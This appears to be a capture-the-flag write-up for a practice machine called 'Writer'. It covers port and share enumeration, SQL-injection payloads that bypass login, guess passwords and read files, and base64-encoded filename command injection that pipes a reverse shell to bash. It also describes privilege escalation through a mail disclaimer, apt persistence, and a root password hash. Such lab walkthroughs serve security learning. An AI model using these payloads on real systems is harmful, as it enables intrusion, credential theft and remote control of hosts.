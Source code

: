 # Writer

![Writer.png](Writer/Writer.png)

### 08/27/2021

Nmap scan

```java
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-27 19:44 -03
Nmap scan report for 10.10.11.101
Host is up (0.42s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.31 seconds
```

Trying SQL-injection:

![Untitled](Writer/Untitled.png)

Directory scan

![Untitled](Writer/Untitled%201.png)

```java
========================================= 
|    Share Enumeration on 10.10.11.101    |
 ========================================= 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	writer2_project Disk      
	IPC$            IPC       IPC Service (writer server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Because the SQL Injection bypass login page, we can try a boolean condition to discover admin password in burp suite: 

![Untitled](Writer/Untitled%202.png)

![Untitled](Writer/Untitled%203.png)

```java
1'+or+exists(SELECT+1+FROM+users+where+username+%3d+'admin'+and+password+like+'§a§%'+limit+1)--+x
118e48794631a9612484ca8b55f622d0
118e48794631a9612484ca8b55f622d0
```

Defining number of columns in database:

```java
sid' UNION ALL SELECT 1,2,3,4,5,6;
```

Analyzing the requests we can known that in Welcome message, it shows welcome 1 when we send 0 to 5 and two when we send 1 to 6.

![Untitled](Writer/Untitled%204.png)

It shows writer.wsgi and this file have information about python. This is a interface between application server to make a connection with python django. 

Database version:

![Untitled](Writer/Untitled%205.png)

![Untitled](Writer/Untitled%206.png)

This file import the __ init __ .py from web folder. 

![Untitled](Writer/Untitled%207.png)

```java
/var/www/writer.htb/writer/__init__.py
Db credential: admin | ToughPasswordToCrack&
```

Let's to analyze that file to search for interesting things:

![Untitled](Writer/Untitled%208.png)

![Untitled](Writer/Untitled%209.png)

In this way we can create a reverse-shell without spaces.

![Untitled](Writer/Untitled%2010.png)

```java
a.jpg&&echo${IFS}bmMgMTAuMTAuMTQuNDIgMTIzNA==|base64${IFS}-d|bash;.jpg
# Using hex format
X=$'cat\x20/etc/passwd'&&$X

exploit.jpg;bmMgMTAuMTAuMTQuNDIgMTIzNA==|base64$(foo)-d|bash
a.jpg&&echo${IFS}bmMgMTAuMTAuMTQuNDIgMTIzNA==|base64${IFS}-d|bash;.jpg
```

The files are saved with random name like: 

![Untitled](Writer/Untitled%2011.png)

Dumping files from the machine:

![Untitled](Writer/Untitled%2012.png)

```java
uname='UNION ALL SELECT 1,LOAD_FILE('/var/www/writer.htb/writer/templates/settings.html'),3,4,5,6-- X&password=%27or+1%3D1--+x
```

![Untitled](Writer/Untitled%2013.png)

**Tables**

site, stories, user

**User**

Columns:

```python
uname='union all select 1,COLUMN_NAME,3,4,5,6 from information_schema.columns where table_name='users'-- x&password=1
#Output id,username,password,email,status,date_created
```

**Stories**

Columns:

```python
id,author,title,tagline,content,status,date,image
```

**Site**

Columns:

```python
id,title,description,logo,favicon,ganalytics
```

### Code review

This review will be made separated with sections, each section contains a image and the review of the block:

![Untitled](Writer/Untitled%2014.png)

The flask app sends the SQL query to the HTML page render stories. 

![Untitled](Writer/Untitled%2015.png)

After read the code many times, i didn't find the vulnerability, so i craft the local website to try decode executions:

![Untitled](Writer/Untitled%2016.png)

The idea was enter in each statement  and set a print, so with this we can debug what occurs in the application:

![Untitled](Writer/Untitled%2017.png)

So when send a simple image this shows that we are in first statement without se a image_url

![Untitled](Writer/Untitled%2018.png)

Into the exception camp, so we have to set.jpg in hellohelo phrase.

![Untitled](Writer/Untitled%2019.png)

Find a way to exit of this exception:

![Untitled](Writer/Untitled%2020.png)

I known that this file_name has to be a external url.

![Untitled](Writer/Untitled%2021.png)

So the image variable is all of the things into the file data url:

![Untitled](Writer/Untitled%2022.png)

Uploading the malicious file with the payload:

![Untitled](Writer/Untitled%2023.png)

Now in the image_url as you know, we will call the malicious file and execute the reverse shell. 

After many tries, I knew that you must have to send the payload in both parameters.

![Untitled](Writer/Untitled%2024.png)

Database credentials.

![Untitled](Writer/Untitled%2025.png)

In the folder of writer v2 has a settings file with credentials.

![Untitled](Writer/Untitled%2026.png)

And a path of the configuration file.

![Untitled](Writer/Untitled%2027.png)

Reading this file, it has database credentials. 

![Untitled](Writer/Untitled%2028.png)

Get the password in database and crack it.

Based on the groups we search to files with permissions.

![Untitled](Writer/Untitled%2029.png)

Editing the disclaimer with a reverse shell inside it.

![Untitled](Writer/Untitled%2030.png)

![Untitled](Writer/Untitled%2031.png)

Open ports:

![Untitled](Writer/Untitled%2032.png)

The port 25 is the port of email postfix

When you perform the mail, the disclaimer is executed.

![Untitled](Writer/Untitled%2033.png)

Now in the apt.conf.d we will write a persistent script.

Reverse shell

![Untitled](Writer/Untitled%2034.png)

After that we get the root access

![Untitled](Writer/Untitled%2035.png)

```python
root:$6$gev1Op0YfgboE7iR$iMNbP.8qic/SzTr4atxwLbkI7nScyZWJPbTgoXAlEz5Hcw3Ntget9j3p.iccPcw5Jl4dj4bHWZ5LvoLLNC8iB.:18816:0:99999:7:::
```